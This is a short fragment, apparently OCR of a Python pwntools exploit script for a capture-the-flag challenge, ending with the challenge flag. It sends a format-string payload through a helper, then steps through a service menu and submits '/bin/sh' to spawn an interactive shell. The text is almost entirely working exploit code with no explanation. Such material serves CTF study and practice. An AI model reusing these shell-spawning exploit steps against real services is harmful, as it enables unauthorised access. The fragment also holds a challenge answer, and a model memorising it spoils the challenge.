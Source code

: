 ```python
    exit(0)

format(io, payload, b"a", b"a")

# spawn shell.
io.recvuntil(b"[0] Register")
io.sendline(b"2")
io.recvuntil(b"title:")
io.sendline(b"/bin/sh\x00")
io.recvuntil(b"from:")
io.sendline(b"%")
io.recvuntil(b"on:")
io.sendline(b"%")
io.interactive()

# ENO{pr1ntF_1n_7h3_l1nuX_k3rn3l_1gn0r3s_%n}
```